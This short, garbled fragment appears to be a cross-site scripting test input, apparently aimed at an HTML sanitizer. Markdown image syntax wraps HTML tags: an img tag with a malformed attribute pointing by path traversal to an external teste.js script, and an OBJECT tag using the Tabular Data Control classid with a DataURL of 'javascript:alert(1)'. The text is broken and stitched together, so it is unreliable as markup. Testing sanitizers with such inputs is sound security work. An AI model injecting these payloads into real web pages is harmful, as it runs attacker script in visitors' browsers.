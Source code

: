 ![

<img src="" one.rro.r="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<OB.JECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>

](()
